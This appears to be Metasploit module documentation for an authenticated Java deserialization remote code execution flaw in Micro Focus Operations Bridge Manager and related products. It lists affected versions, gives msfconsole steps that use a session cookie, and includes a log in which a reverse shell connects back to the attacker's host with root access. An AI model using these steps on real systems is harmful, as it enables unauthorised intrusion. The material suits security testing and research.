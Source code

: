 ## Vulnerable Application

This module exploits an authenticated Java deserialization that affects a truckload of Micro Focus products: 
* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Data Center Automation version 2019.11 
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11 
* Universal CMDB versions: 2020.05, 2019.11, 2019.05, 2019.02, 2018.11, 2018.08, 2018.05, 11, 10.33, 10.32, 10.31, 10.30 
* Hybrid Cloud Management version 2020.05 
* Service Management Automation versions 2020.5 and 2020.02

Exploiting this vulnerability will result in remote code execution as the root user on Linux or the SYSTEM user on Windows.
Authentication is required, the module user needs to login to the application and obtain the authenticated LWSSO_COOKIE_KEY, which should be fed to the module. 
Any authenticated user can exploit this vulnerability, even the lowest privileged ones.

The exploit uses a modified ysoserial c3p0 payload. The only part that is modified is that c3p0 is built using version 0.9.1.2, so that the serialVersionUid of the target is the same as the exploit. This can be achieved by patching ysoserial's pom.xml.

This module was only tested with Operations Bridge Manager 2020.05 and 2019.11. It should work as is with earlier Operations Bridge Manager versions, but it might require small modifications (to the cookie name or vulnerable URI) for the other affected products. However it is equally likely that it works out of the box with the other products, as HPE / Micro Focus is well known for re-using (vulnerable) code.

For more information refer to the advisory link:
* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obm_auth_rce`
4. `set rhost TARGET`
5. `set lhost YOUR_IP`
6. `set srvhost YOUR_IP`
7. `set lwsso_cookie_key AUTHENTICATED_COOKIE`
8. `run`
9. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_obm_auth_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set rhosts 10.0.0.10
rhosts => 10.0.0.10
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set srvhost 10.0.0.1
srvhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_obm_auth_rce) > set lwsso_cookie_key "7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew.."
lwsso_cookie_key => 7j-OJPUrD25c8CYmZav3fIuzXlPk4tksYgXd3HiuCMKC_Qn4wT4D8Tc_ovwvtHPLCZRi1vsRIIyj9j4IVJiAAR_yDb3olzHTGD2J1haQU6sq_iJRDBKgl1eN3n3PHrc-yXa8jtXC3ltNmLPLkXPbdrx6zbbTEkxyMMn2Lg5co4bGSA6Z-_OtlMXgUexKPLLAzszXJuVxeF5b6-sc91F7ew..
msf6 exploit(multi/http/microfocus_obm_auth_rce) > check
[*] 10.0.0.10:443 - The service is running, but could not be validated.
msf6 exploit(multi/http/microfocus_obm_auth_rce) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] Using URL: http://10.0.0.1:8080/
[+] Started remote classloader server at http://10.0.0.1:8080/
[*] Sending remote classloader gadget to https://10.0.0.10/legacy/topaz/sitescope/conf/registration
[*] Sending stage (58147 bytes) to 10.0.0.10
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.9.8.10:36432) at 2021-01-28 18:13:18 +0700
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > shell
Process 1 created.
Channel 1 created.
uname -a
Linux pwned 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
```
